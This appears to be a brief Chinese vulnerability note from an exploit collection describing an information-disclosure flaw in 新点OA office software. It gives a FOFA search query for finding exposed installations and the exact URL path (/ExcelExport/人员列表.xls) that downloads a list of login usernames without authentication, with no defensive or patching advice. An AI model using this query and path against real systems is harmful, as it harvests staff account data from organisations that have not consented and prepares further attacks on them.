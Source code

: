 ## 0x00 漏洞背景

        新点OA访问特定的url可以获取网站登录特定的用户名信息
        
        
 ## 0x01 漏洞利用
 
       fofa搜索：app="新点OA"
 
       URL+/ExcelExport/人员列表.xls
       
       
       
      
      
      ![图片](https://user-images.githubusercontent.com/118274389/230259380-87b0fd7c-033f-4f61-85c5-7a3689bdc44c.png)

